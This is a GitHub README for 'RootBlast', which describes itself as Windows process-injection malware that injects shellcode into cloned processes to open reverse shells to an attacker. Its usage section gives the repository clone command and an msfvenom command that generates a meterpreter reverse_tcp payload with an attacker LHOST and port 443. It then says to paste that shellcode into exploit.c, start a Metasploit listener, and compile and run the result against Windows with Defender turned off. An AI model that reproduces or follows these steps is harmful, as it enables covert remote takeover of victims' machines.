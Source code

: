 # RootBlast
![image](https://github.com/Spirizeon/rootblast/assets/123345456/d7600095-f6b4-49b2-bb8f-28c2ce3c07ba)


Process injection malware that clones windows processes, injects them with shellcode and executes them to attempt numerous reverse shells on the attacker. (Made with 🤎 for Windows users)

## Usage
+ Clone the repo
```
git clone https://github.com/spirizeon/rootblast
```
+ Generate shellcode through msfvenom 
```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP adress> LPORT=443 -f c --var-name=shellcode
```
+ Replace shellcode with that in `exploit.c`

+ Start the listener on the Attacker machine (Run msfconsole as sudo)

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/a78fc663-07fa-48c1-a65e-e68db3c4d29c)

+ Compile the code (MSVC compiler recommended) and execute

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/9a44d8ad-cf9e-435e-af46-a74f270057a9)

## Tech Stack

**Attacker** Kali Linux/ParrotOS VMs, metasploit-framework

**Target:** Windows 7/10/11 (with Windows defender turned off)

